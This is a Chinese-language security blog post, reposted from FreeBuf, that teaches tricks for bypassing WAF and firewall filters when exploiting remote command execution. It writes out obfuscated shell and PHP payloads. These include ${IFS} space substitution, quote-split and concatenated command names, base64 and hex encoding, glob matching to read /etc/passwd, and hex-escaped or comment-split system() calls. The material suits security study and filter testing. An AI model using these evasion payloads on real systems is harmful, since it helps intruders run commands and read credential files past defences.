 #  RCE bypass的一些小技巧##   
原创 几两  StepSnail   2024-01-13 21:58  
  
免责声明：  
本文仅用于安全研究和教育目的。文章中的信息仅供参考,不应被用于非法用途。由于传播或利用此文所提供的信息、技术或方法而造成的任何直接或间接的后果及损失，均由使用者本人负责， 文章作者不为此承担任何责任。  
  
# RCE bypass的一些小技巧  
## 0x01 前言  
  
关于Bypass，我们应该从哪些角度开展呢。要知道怎么绕过，我们就得知道防火墙的过滤规则才行。那我们想想，比如在利用RCE漏洞的时候，我们当然想用cat、chmod、whoami、ifconfig、ls等这些操作对不对！像这些敏感命令，防火墙就会进行过滤。还有特殊字符如单引、双引、空格等等，防火墙同样会进行过滤。那我们现在知道那该死的防火墙不让我们输入那些敏感字符了，我们就要想办法找一些可以代替这些敏感字符且又能表达其字符的意思的东西对吧？  
## 0x02 RCE bypass姿势  
### 2.1 空格绕过  
  
过滤空格的情况可以通过利用重定向符、IFS、其他字符代替、{,}等方法进行绕过。  
```
cat<>11.php //重定向符
cat${IFS}11.php //IFS
cat$IFS$911.php //$IFS$9
{cat,11.php} //{,}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxoEibjdXZpQMUfibekjKrOquLX0ZfbuMZrl28EVPQPrmicS83FuVlIk8kicw/640?wx_fmt=png&from=appmsg "")  
### 2.2 命令或特殊字符绕过  
  
（1）、如果过滤了某个命令，可以利用命令拼接、插入空字符串或者反单引号来绕过。  
```
//假设过滤了cat
a=c;b=a;c=t;$a$b$c //拼接
c"a"t //插入空字符串
c""a""t //也是插入空字符串
c''a''t //反单引号

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxom8JMib5RccBFSg57ICxsmPFia65cTe40nicWiazr7icuFLz29HBT3AjFXZA/640?wx_fmt=png&from=appmsg "")  
  
这个也有很多灵活的变种，比如第一种拼接方法，如果过滤了分号，可以利用%0a及类似的字符来代替分号。  
  
（2）、利用base编码绕过  
  
base64编码内容是cat 11.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxot6fV3HFo0RMicibHHvRZaf0cmXeUIlupwLQE9N9NJjcRCuBwEFbrb6Vw/640?wx_fmt=png&from=appmsg "")  
  
（3）、利用hex编码（十六进制）绕过  
  
echo的十六进制是cat 11.php **注意：不加0x**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxoTqVGnictkakskMk6wE0CNO0nibm4DEBrCZicPTxwQz1vAkjUrtPvjgziag/640?wx_fmt=png&from=appmsg "")  
  
（4）、利用未初始化变量  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxooyFDOQIB7dCibYcaJt17TiacFB9EBLXGCRPmqAOKibsqabt7TjDqX9yEA/640?wx_fmt=png&from=appmsg "")  
### 2.3 过滤文件名绕过  
  
（1）、利用正则匹配绕过  
  
例如过滤了/etc/passwd文件，使用正则匹配绕过。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxoG5SkFm5q2iaYwXlzic2DZHE3vpXvvyZFjSLejRUeI5LmmnXZ2bdCGg1w/640?wx_fmt=png&from=appmsg "")  
  
（2）、使用未初始化变量绕过过滤文件名  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxozj9XMj2ibRj4p5Uwhjf6LtsI1ArP4CzH7RbW3cpX01Yic6lQf9wBA9RA/640?wx_fmt=png&from=appmsg "")  
### 2.4 命令执行函数system()绕过  
  
系统命令函数system()、 passthru() 、exec() 、shell_exec()、 popen()、 proc_open()、 pcntl_exec() 、shell_exec()用以上函数都可进行绕过。  
  
（1）、函数过滤绕过  
  
"\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxoHNYBv7VDiasD2wTScia4zGRdYFhMT7akS6PyUt4sZx8MokKYqgYWaoicA/640?wx_fmt=png&from=appmsg "")  
  
(sy.(st).em)(whoami);  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxo7kJ3S3RKGuPgeHicPnicgVIgPqokgOu7SfpjekHSacpUYsr4uX2wZAZg/640?wx_fmt=png&from=appmsg "")  
  
（2）、插入注释（这对于绕过阻止特定PHP函数名称的WAF规则集很有用）  
```
php -r "system/*caixukun*/(whoami);"
php -r "system/*caixukun*/(wh./*caixukun*/(oa)/*caixukun*/.mi);"
php -r "(sy./*caixukun*/(st)/*caixukun*/.em)/*caixukun*/(wh./*caixukun*/(oa)/*caixukun*/.mi);"

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdoS2IiamawQzdgh2ywWSWxoytQdt5gBIG4lvmP7Z5XGucWo9Gjg03jJQNicPic4hM66SyzndziaFteSA/640?wx_fmt=png&from=appmsg "")  
  
  
【转载】https://www.freebuf.com/articles/web/330833.html  
  
  
  
  
  
  
  
**欢迎关注、点赞、转发**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/vs6VLQUL3HdM0flqK1zQXclTvasdAGZeMVDfgV8xrctSDJS3e3SvDBqA8VVfObCuOHbHwvDcfMjOlaScBwwBhw/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vs6VLQUL3HdM0flqK1zQXclTvasdAGZeYUdJrlh8piar4skZB2ER5zVUIBdlbSHjEOd96XYWl9AvwTVkHricx01g/640?wx_fmt=png "")  
  
  
转载声明：本文的最终解释权归原作者所有。欢迎转载本文,但请注明原作者和出处且必须保证文章的完整性,即包含原文中的所有内容。本文内容仅代表原作者个人观点和研究成果,与任何组织无关。原作者已尽量确保文章内容的准确性,但不保证文章没有疏漏或错误。未征得作者同意,不可擅自删改本文内容,也不可用于任何商业用途。望尊重作者的知识产权,按照规定和要求使用本文。如有疑问,欢迎与作者联系。  
  
  
  
  
  
  
  
  
  
